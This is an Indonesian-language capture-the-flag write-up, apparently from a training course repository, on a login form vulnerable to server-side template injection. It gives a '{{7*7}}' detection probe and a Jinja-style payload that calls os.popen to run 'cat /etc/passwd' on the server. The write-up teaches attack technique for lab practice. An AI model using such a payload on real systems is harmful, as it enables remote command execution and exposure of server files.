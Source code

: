 # SSTI 1

## Deskripsi Soal

Pada challenge ini, diberikan sebuah aplikasi login admin yang rentan terhadap **Server-Side Template Injection (SSTI)**.

![SSTI1](https://github.com/masibelajar/KWA-A-2025/blob/main/d1/SSTI1.png)

## Identifikasi Kerentanan

Aplikasi menggunakan template engine yang tidak melakukan sanitasi input dengan baik, sehingga memungkinkan terjadinya SSTI.

## Langkah Penyelesaian

1. Buka aplikasi dan temukan form login.
   
3. Coba input payload SSTI sederhana, misal: `{{7*7}}` pada field username atau password.

[Login](https://github.com/masibelajar/KWA-A-2025/blob/main/d1/SSTI1.1.png)

5. Jika output pada halaman berubah menjadi `49`, maka aplikasi rentan SSTI.

[Output](https://github.com/masibelajar/KWA-A-2025/blob/main/d1/SSTI1.2.png)


5. Lanjutkan eksploitasi dengan payload lain, misal untuk membaca file:
   ```
   {{config.__class__.__init__.__globals__['os'].popen('cat /etc/passwd').read()}}
   ```
6. Jika berhasil, Anda dapat membaca file sensitif pada server.
   
[Flag](https://github.com/masibelajar/KWA-A-2025/blob/main/d1/SSTI1.3.png)

## Payload yang Digunakan

- `{{7*7}}`
- `{{config.__class__.__init__.__globals__['os'].popen('cat /etc/passwd').read()}}`

## Referensi

- [PayloadAllTheThings - SSTI](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection)

- [OWASP SSTI](https://owasp.org/www-community/vulnerabilities/Server-Side_Template_Injection)



